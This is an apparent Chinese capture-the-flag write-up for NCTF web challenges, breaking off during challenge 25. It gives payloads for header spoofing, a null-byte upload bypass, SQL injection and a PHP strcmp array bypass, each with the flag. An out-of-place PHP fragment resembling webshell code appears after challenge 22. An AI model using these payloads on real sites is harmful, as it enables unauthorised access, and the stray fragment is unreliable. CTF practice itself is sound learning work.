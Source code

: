 
20.伪装者
x-forwarded-for:127.0.0.1
nctf{happy_http_headers}


21.header
flag隐藏在响应头里
nctf{tips_often_hide_here}

22.上传绕过
250
dir /uploads/1.php(0x00)1.jpg
nctf{welcome_to_hacks_world} 
);$R.=php_uname();$R.="({$usr})";print $R;;echo("|<-");die();


23.SQL注入1!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
300
http://chinalover.sinaapp.com/index.php
user=admin')/**/or/**/1=1%23&pass=11
nctf{ni_ye_hui_sql?}

24.pass check
300
<?php
	$pass=@$_POST['pass'];
	$pass1=***********;//被隐藏起来的密码
	if(isset($pass))
	{
	if(@!strcmp($pass,$pass1)){
	echo "flag:nctf{*}";
	}else{
	echo "the pass is wrong!";
	}
	}else{
	echo "please input pass!";
	}
?>
strcmp漏洞
echo (int)strcmp('pending',array());
will output -1 in PHP 5.2.16 (probably in all versions prior 5.3)
but will output 0 in PHP 5.3.3
构造数组绕过
http://chinalover.sinaapp.com/web21/
pass[]=1
nctf{strcmp_is_n0t_3afe}      

25.起名字真难
300
<?php
 function noother_says_correct($number)
{
		$one = ord('1');
		$nine = ord('9');
		for ($i = 0; $i < strlen($number); $i++)
		{   
				$digit = ord($number{$i});
				if ( ($digit >= $one) && ($digit <= $nine) )
				{
						return false;
				}
		}
		   return $number == '54975581388';
}
$flag='*******';
if(noother_says_correct($_GET['key']))